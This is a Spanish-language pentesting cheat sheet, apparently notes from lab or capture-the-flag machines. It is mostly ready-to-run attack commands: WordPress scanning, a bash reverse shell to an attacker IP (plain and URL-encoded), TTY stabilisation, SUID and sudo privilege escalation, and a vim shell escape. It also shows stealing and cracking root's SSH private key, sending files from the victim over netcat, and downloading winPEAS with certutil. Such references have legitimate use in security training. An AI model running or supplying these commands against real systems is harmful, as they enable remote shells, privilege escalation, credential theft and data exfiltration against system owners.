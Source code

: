 ## Para analizar páginas web que estén creadas con wordpress podemos realizar estos dos comandos:

```
wpscan –url http://ip
```
## Y en caso de que no veamos nada vulnerable, podemos probar a buscar posibles plugins vulnerables:

```
wpscan --plugins-version-detection aggressive --url http://192.168.0.5/wordpress
```

## Opciones para crear una shell inversa:

[revshell](https://www.revshells.com/)

```
 “/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'”
 ```
 ## En caso de querer codificarla en url, podemos realizar el siguiente comando:
 ```
urlencode "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.4/1234 0>&1'"
```

## Sacar hashes de ficheros zip:
```
zip2john muyconfidencial.zip > hash_muyconfidencial
```
## Para tener una mejor consola interactiva una vez hemos realizado nc -lvp 1234
```
SHELL=/bin/bash script -q /dev/null
Hacemos control +z
stty raw -echo && fg
escribimos reset
xterm
export TERM=xterm
```
(un máquina atacante usamos stty size para saber el tamaño de la terminal)
En la vicitma ejecutamos
```
stty rows x columns y
```
## Página donde ver como escalar privilegios con los binarios (sudo -l ):
[gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)

## Visualizar todos los ficheros ordenados por directorios para ver los permisos:
```
ls -la /* | less
```
## Página donde se ven diferentes tipos de ataque:
[deephacking](https://deephacking.tech/)

## Ejemplo de uso para escalar priv con rutas absolutas:
```
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
```
> **Nota:** pspy - Script que permite visualizar todos los procesos que se están ejecutando en el sistema sin ser root.

## Escalar priv por medio de SUID
Dar privilegios p.j 
/bin/bash u+s o (4777) 
Ejecutar el comando del ejemplo
bash -p 
> **Nota:** (la opción -p en bash (preserve privileges) le dice a Bash que mantenga los permisos de usuario efectivo). 

## Ejemplo de Búsqueda de Archivos SUID:
```
find / -perm -4000 -type f 2>/dev/null (para buscar ficheros) 
find / -perm -4000 2>/dev/null (para buscar directorios).
```
## Otro ejemplo pero con un editor como puede ser vim:
```
vim -c una vez dentro ejecutar: ':!/bin/sh'
```

## En algún supuesto caso de que tengamos posibilidad de ver ficheros como root sin serlo y necesitemos escalar a root, una de las posibilidades es entrar en:

> **Nota:** /root/.ssh/id_rsa y copiar la clave a nuestra máquina atacante para posteriormente hashear esa clave e intentar sacar la contraseña por el hash.
```
ssh2john ficherodondeguardamoslakey > salidaficherohasheado

john ficherohasheado –wordlist /usr/share/wordlist/rockyou
```
Para terminar, una vez obtengamos la contraseña nos podemos conectar desde la atacante usando el fichero con la clave privada
```
sudo ssh root@ip -i ficheroconlakey
```
Enviar ficheros por netcat (Victima)
```
nc -q 0 192.168.16.37 9999 < BurgerWithoutCheese.zip (atacante) nc -nvlp 9999 > BurgerWithoutCheese.zip
```
## Compartir ficheros con máquinas Windows:
```
certutil -urlcache -split -f http://192.168.200.3/winPEASx64.exe C:\Users\hacker\Documents\winpeas.exe
```


## Página donde ver ataque de fuerza bruta con hydra a diferentes tipos de login:
[Hydra Brute Force Login Attacks](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)
